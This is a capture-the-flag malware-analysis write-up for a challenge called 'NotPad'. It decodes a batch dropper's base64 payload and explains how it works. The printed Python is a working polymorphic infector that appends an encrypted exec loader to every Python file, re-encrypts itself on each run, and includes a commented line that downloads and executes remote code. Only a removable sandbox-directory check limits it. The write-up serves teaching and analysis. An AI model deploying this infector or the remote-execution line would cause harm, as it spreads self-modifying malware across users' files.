



#    NotPad 500 - Malware Analysis Writeup

## Challenge Descritption


While scrolling through my email, I stumbled upon a mail that says I won NotePad premium. I installed it ofc why wouldn't I. But it's just normal notepad :(
    
Flag format: Securinets{Server_flagVar_MaliciousDownloadName_VirusType}

**(Note: Although this is a malware analysis task, this file is totally secure and indeed try executing it. Some antiviruses will flag it as a malware, but, once again, its totally secure to execute it and analyse it.)**

---

## Provided Files

[notPad.bat](taskFiles/notpad/sandbox/notPad.bat)

---

## Initial Analysis

For this challenge, we're provided with the malware inside a sandbox folder. It's windows batch script, and the folder contains some normal python files.

Upon executing the malware, a terminal fires up with a pip install command then notepad opens up and the terminal is closed. The malware will also get deleted in an attempt to hide its trace.

Now let's take a look at our python files. As expected, the files got modifed.



Taking a look at the script with a text editor, we can see that there's some base64 obfuscated code that gets output to a python file and then executed.

Let's analyse this code. The base64 decrypted payload will be this.

```py
import os
from cryptography.fernet import Fernet


def decrypt(token, key):
   fer = Fernet(key)
   virus = fer.decrypt(token).decode()
   exec(virus)


# START
key = "dsTkswm0UnI9gt4KTTI3zmYGg0KCrCWy-8lvbrdkQek="
token = "gAAAAABnAmBTGqcp5qEzt6jkUd7TeARRgeYfqOSVRpct0qn0WV-RAhVtLjM7456lQJ1LvBdjG3x4OSs1Q2hj7FLoUAo379Tg0f5z4pBEgn22AP0Xb7j_E5244_EWO-QYJb72aptqJzvQ7kXVn29UUzXyBTEHvTz0AyEPzpTpfkDCk3WGUlKAqcU6Dd8LNyU7lIIe_vHd6Z5tbt7Oe0Oha7j-OuN2YLIAwPWyNzCoXVlJlHdywKHlshpgS00jY7BEMlCsM_gZAullCoW1F1tTi4KnjvAnPxE3EO107RKF7-5syOuUFMdFP0vCCsofLWRRPvZIvzjAATnh2OfOL5yf_Ou5qMpWQHNYqWQowmS-i55bFIN0i8bg-Xz_aaqh4Ih783nmezjOCtb7tsTVRTgOtq33Ub2iIttUhLFvgHS9biwWXIjJOjLwPpSMY68-4kuhzKkcF09h5faJZi3hXt1zKyMA4_OeUvNPUis7qbJh-xXy-CL75nEjcP2no0cxPKnbcB6S1-tg7sQgqUYxfRsZ0jaDVr0YaW4Sa6tl_n1qCpodZHykYcNf8L6kdUI_oHwXVrtaw-DVbR3BEqlMoxo2pnrxW74sMs7f3xWSbBBJxs4gCsoOScaMBz-sIXEJjz4NEDb4FXtEbIE0WMOp0v2TfLE0B4F5MqQSqusLqTsPOpKr7LrGa4mUoOFZ84yhZfgJFgo7t41jXG2wrQPi1-42sphHoxILIKvXxbvFdXfr60ypWTCdY4Pp0wEpyWYbg-4Tm5xaRW8FAB2YYR2_PgMTG7LukF7VZ--TkuQopexgDMcKAnDqmZvqg3l18jvLIrIThgJwNnRhoNwELCP3QMnxSPt7xjOxQ5ZQEh2EtV2tl3gQRAKC-TviKi8_RBU7W8XQDNRqe9tzllzL2epm6DVX67K_XgTw75AvlXWdWy6GmjHYep90FMVKXjGm4fAiALS_K2NiMjskgr5c6-cT_HLaXycnfbdQ4RUQCdC5zrhnul7fgYHDdzjm5aVbbInGt_RNGoAJ3FR0h7KEzqCewLZiotFedtuJHFx7OFt_GojOgzSLOz7ijhBxbT3b0Yj6TTVuoU4KTwOWiyElvlbYXbgplltMDHyZV-ACdfqq21cKlRxeXjJO6ZHHbLFQjY-8jQovdKcejiunUXEAM-VRZLB4Kb8WBvN6K9buSFukbMDp6l1nikH8AYEVPbF_l6nGbt74ZC7FxG5j579GbrB7Gg9E1kexIyTj4DelEne84o6ghT4FqWnNNyJyIkkoO65ca3YcxWcLeNrhdwFhroqQEHCyG-XNexzeZvxk8cDx6ZEqpW0ClNcblN6KDc55quUvHsQLVWPFQggfEVukMVnc_VzyMKeGppMuzDkyj2piNPqmVzxZ_3DO4ys22foFriy9oKBdnKv45ie1iKf6LZvWZsdo3Rihmxk-GVf78g=="

def run():
   def execute():
       with open("ByeBye.txt", 'w') as file:
           file.write("You just got hacked.\n")
           flag = "W0W_M4l1ci0us"
           # import requests; exec(requests.get("https://Securinets{Evil_/backdoor.exe").text);

   
   execute()
   global key
   global token

   fer = Fernet(key)
   virus = fer.decrypt(token).decode()

   key = Fernet.generate_key()
   fer = Fernet(key)
   token = fer.encrypt(virus.encode())

   if os.path.basename(os.getcwd()) != "sandbox":
       print("This script can only run in the 'sandbox' directory.")
       exit()
   for root, dirs, files in os.walk("."):
           for file in files:
               if file.endswith(".py"):
                   
                   file_path = os.path.join(root, file)
                   with open(file_path, 'a') as f:
                       f.write("\nimport os\n")
                       f.write("from cryptography.fernet import Fernet\n")
                       f.write("def decrypt(token, key):\n\tfer = Fernet(key)\n\tvirus = fer.decrypt(token).decode()\n\texec(virus)\n")
                       f.write("key = \"{}\"\n".format(key.decode()))
                       f.write("token = \"{}\"\n".format(token.decode()))
                       f.write("\ndecrypt(token, key)\n")

   fname = os.path.basename(__file__)
   lines = []
   with open(fname, 'r') as f:
       lines = f.readlines()
   
   with open('lol', 'w') as f:
       for line in lines:
           if line.startswith("# START"):
               break
           f.write(line)

       f.write("# START\n")
           
       f.write("key = \"{}\"\n".format(key.decode()))
       f.write("token = \"{}\"\n".format(token.decode()))
       f.write("\ndecrypt(token, key)\n")
       


   os.remove(fname)
   os.rename("lol", fname)


run()
```

Well, this some weird code. First it defines a decrypt function that uses Fernet algorithm and executes the decrypted token. We can guess that some malicious payload is embedded there. It then defines the tocken and the key. The run() function contains the malicious script. First, the execute() function will contain the actual malicious code. After its execution, which is downloading a remote script and executing it, we move on to the file propagation logic. Let's first write down the server: **Securinets{Evil_**, the downloaded script name **backdoor.exe** and the commented flag: **W0W_M4l1ci0us**.
The propagation logic is quite simple, it recreates the token by generating a new key, then reads every python file in the local directory and appends the decrypt function and the token/key.

So now, whenever any Python file on the victim's machine is executed, the original code runs without any issues. However, after that, the malicious payload is executed as well, and an antivirus program would likely trust it because it originated from a trusted file. But this isn't the main trick. The most significant characteristic of this malware is that it changes with each execution.

This is the first execution:



This is the second one:



As you can see, each time the token or key changes. If the antivirus software begins to suspect the code, it will lose track of it whenever it changes since the hash value will also change. This type of malware is known as **polymorphic viruses**.

*Polymorphic viruses are complex file infectors that can create modified versions of itself to avoid detection yet retain the same basic routines after every infection. To vary their physical file makeup during each infection, polymorphic viruses encrypt their codes and use different encryption keys every time.*

**Flag: Securinets{Evil_W0W_M4l1ci0us_backdoor.exe_Polymorphic}**

### Note

If you want to test out this code and read the values of the tokens use [this decription sample code](solver/dec.py).

If you're wondering about these lines:

```py
if os.path.basename(os.getcwd()) != "sandbox":
       print("This script can only run in the 'sandbox' directory.")
       exit()
```

**Its purpose is protecting you, the player, in case this malware was executed in a directory other than the sandbox. Please note that you're responsible for your own actions if you decide to remove that function and run the malware.**